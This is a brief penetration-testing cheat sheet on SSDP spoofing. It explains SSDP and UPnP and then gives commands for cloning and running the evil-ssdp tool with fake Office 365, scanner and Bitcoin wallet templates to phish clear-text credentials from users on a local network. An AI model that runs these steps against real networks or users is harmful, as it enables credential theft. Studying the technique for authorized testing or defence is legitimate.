

# ⭕ SSDP Spoofing

## SSDP

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## UPnP

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## Evil SSDP



A tool for setting up a fake SSDP device and phishing the user for clear text credentials:


The attacker has to be in the same network as the target systems.


```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```


#### The default template is office 365 login console, you can change the template with -t \[template name]


&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

 (1).png>)

if the user enters the credentials, EvilSSDP will grab and show them

 (1).png>)

## Other templates

### Office 365

```
python3 evil_ssdp.py eth0 -t office365
```



### Bitcoin Wallet

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

 (1) (1).png>)

check the repository for other available templates or use your own template and xml description file.
